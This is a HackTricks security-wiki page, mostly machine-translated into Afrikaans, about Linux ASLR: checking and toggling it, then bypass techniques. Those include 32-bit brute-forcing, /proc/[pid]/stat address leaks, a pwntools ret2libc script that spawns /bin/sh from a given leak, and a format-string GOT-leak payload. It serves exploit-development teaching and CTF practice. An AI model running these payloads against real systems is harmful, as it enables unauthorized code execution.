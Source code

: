 # ASLR

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basiese Inligting

**Address Space Layout Randomization (ASLR)** is 'n sekuriteits tegniek wat in bedryfstelsels gebruik word om die **geheue adresse** wat deur stelsels en toepassings prosesse gebruik word, te **randomiseer**. Deur dit te doen, maak dit dit aansienlik moeiliker vir 'n aanvaller om die ligging van spesifieke prosesse en data, soos die stapel, hoop, en biblioteke, te voorspel, wat sekere tipes ontploffings, veral buffer oorgroeis, verminder.

### **Kontroleer ASLR Status**

Om die ASLR-status op 'n Linux-stelsel te **kontroleer**, kan jy die waarde uit die `/proc/sys/kernel/randomize_va_space` lêer lees. Die waarde wat in hierdie lêer gestoor is, bepaal die tipe ASLR wat toegepas word:

* **0**: Geen randomisering. Alles is staties.
* **1**: Konserwatiewe randomisering. Gedeelde biblioteke, stapel, mmap(), VDSO-bladsy is gerandomiseer.
* **2**: Volledige randomisering. Benewens elemente wat deur konserwatiewe randomisering gerandomiseer is, is geheue wat deur `brk()` bestuur word, gerandomiseer.

Jy kan die ASLR-status met die volgende opdrag kontroleer:
```bash
cat /proc/sys/kernel/randomize_va_space
```
### **Deaktiveer ASLR**

Om ASLR te **deaktiveer**, stel jy die waarde van `/proc/sys/kernel/randomize_va_space` op **0**. Dit is oor die algemeen nie aanbeveel om ASLR te deaktiveer buite toets- of foutopsporingstoestande nie. Hier is hoe jy dit kan deaktiveer:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
U kan ook ASLR vir 'n uitvoering deaktiveer met:
```bash
setarch `arch` -R ./bin args
setarch `uname -m` -R ./bin args
```
### **Aktivering van ASLR**

Om ASLR te **aktiver**, kan jy 'n waarde van **2** na die `/proc/sys/kernel/randomize_va_space` lêer skryf. Dit vereis gewoonlik wortelregte. Volledige randomisering kan gedoen word met die volgende opdrag:
```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
### **Volharding Oor Herlaaiings**

Veranderings gemaak met die `echo` opdragte is tydelik en sal teruggestel word by herlaai. Om die verandering volhardend te maak, moet jy die `/etc/sysctl.conf` lêer wysig en die volgende lyn byvoeg of aanpas:
```tsconfig
kernel.randomize_va_space=2 # Enable ASLR
# or
kernel.randomize_va_space=0 # Disable ASLR
```
Na die redigering van `/etc/sysctl.conf`, pas die veranderinge toe met:
```bash
sudo sysctl -p
```
This will ensure that your ASLR settings remain across reboots.

## **Bypasses**

### 32bit brute-forcing

PaX verdeel die prosesadresruimte in **3 groepe**:

* **Kode en data** (geïnisialiseerde en nie-geïnisialiseerde): `.text`, `.data`, en `.bss` —> **16 bits** entropie in die `delta_exec` veranderlike. Hierdie veranderlike word ewekansig geïnitialiseer met elke proses en bygevoeg tot die aanvanklike adresse.
* **Geheue** toegeken deur `mmap()` en **gedeelde biblioteke** —> **16 bits**, genoem `delta_mmap`.
* **Die stapel** —> **24 bits**, verwys as `delta_stack`. Dit gebruik egter effektief **11 bits** (van die 10de tot die 20ste byte insluitend), uitgelijnd op **16 bytes** —> Dit lei tot **524,288 moontlike werklike stapeladresse**.

Die vorige data is vir 32-bis stelsels en die verminderde finale entropie maak dit moontlik om ASLR te omseil deur die uitvoering herhaaldelik te probeer totdat die eksploitasie suksesvol voltooi word.

#### Brute-force idees:

* As jy 'n groot genoeg oorgang het om 'n **groot NOP-slee voor die shellcode** te huisves, kan jy eenvoudig adresse in die stapel brute-force totdat die vloei **oor 'n deel van die NOP-slee spring**.
* 'n Ander opsie hiervoor, in die geval die oorgang nie so groot is nie en die eksploitasie plaaslik uitgevoer kan word, is om **die NOP-slee en shellcode in 'n omgewingsveranderlike** by te voeg.
* As die eksploitasie plaaslik is, kan jy probeer om die basisadres van libc te brute-force (nuttig vir 32-bis stelsels):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* As jy 'n afstandsbediening bediener aanval, kan jy probeer om die **adres van die `libc` funksie `usleep` te brute-force**, met 10 (byvoorbeeld) as argument. As die **bediener op 'n stadium 10s ekstra neem om te antwoord**, het jy die adres van hierdie funksie gevind.

{% hint style="success" %}
In 64-bit stelsels is die entropie baie hoër en dit is nie moontlik nie.
{% endhint %}

### Plaaslike Inligting (`/proc/[pid]/stat`)

Die lêer **`/proc/[pid]/stat`** van 'n proses is altyd deur almal leesbaar en dit **bevat interessante** inligting soos:

* **startcode** & **endcode**: Adresse bo en onder met die **TEKS** van die binêre
* **startstack**: Die adres van die begin van die **stapel**
* **start\_data** & **end\_data**: Adresse bo en onder waar die **BSS** is
* **kstkesp** & **kstkeip**: Huidige **ESP** en **EIP** adresse
* **arg\_start** & **arg\_end**: Adresse bo en onder waar **cli argumente** is.
* **env\_start** &**env\_end**: Adresse bo en onder waar **omgewing veranderlikes** is.

Daarom, as die aanvaller op dieselfde rekenaar is as die binêre wat uitgebuit word en hierdie binêre nie die oorgang van ru-argumente verwag nie, maar van 'n ander **invoer wat na die lees van hierdie lêer saamgestel kan word**. Dit is moontlik vir 'n aanvaller om **'n paar adresse uit hierdie lêer te kry en offsets daaruit vir die uitbuiting te konstrueer**.

{% hint style="success" %}
Vir meer inligting oor hierdie lêer, kyk [https://man7.org/linux/man-pages/man5/proc.5.html](https://man7.org/linux/man-pages/man5/proc.5.html) en soek vir `/proc/pid/stat`
{% endhint %}

### Om 'n lek te hê

* **Die uitdaging is om 'n lek te gee**

As jy 'n lek gegee word (maklike CTF-uitdagings), kan jy offsets daaruit bereken (veronderstel byvoorbeeld dat jy die presiese libc weergawe weet wat in die stelsel wat jy aan die aanval is, gebruik word). Hierdie voorbeeld uitbuiting is uit die [**voorbeeld hier**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/aslr-bypass-with-given-leak) (kyk daardie bladsy vir meer besonderhede):
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
0x0,        # return address
next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```
* **ret2plt**

Deur 'n buffer overflow te misbruik, sal dit moontlik wees om 'n **ret2plt** te exploiteer om 'n adres van 'n funksie uit die libc te exfiltreer. Kontroleer:

{% content-ref url="ret2plt.md" %}
[ret2plt.md](ret2plt.md)
{% endcontent-ref %}

* **Format Strings Arbitrary Read**

Net soos in ret2plt, as jy 'n arbitrêre lees via 'n format strings kwesbaarheid het, is dit moontlik om die adres van 'n **libc function** uit die GOT te exfiltreer. Die volgende [**voorbeeld is van hier**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got):
```python
payload = p32(elf.got['puts'])  # p64() if 64-bit
payload += b'|'
payload += b'%3$s'              # The third parameter points at the start of the buffer

# this part is only relevant if you need to call the main function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])
```
You can find more info about Format Strings arbitrary read in:

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

### Ret2ret & Ret2pop

Probeer om ASLR te omseil deur adresse binne die stapel te misbruik:

{% content-ref url="../../stack-overflow/ret2ret.md" %}
[ret2ret.md](../../stack-overflow/ret2ret.md)
{% endcontent-ref %}

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
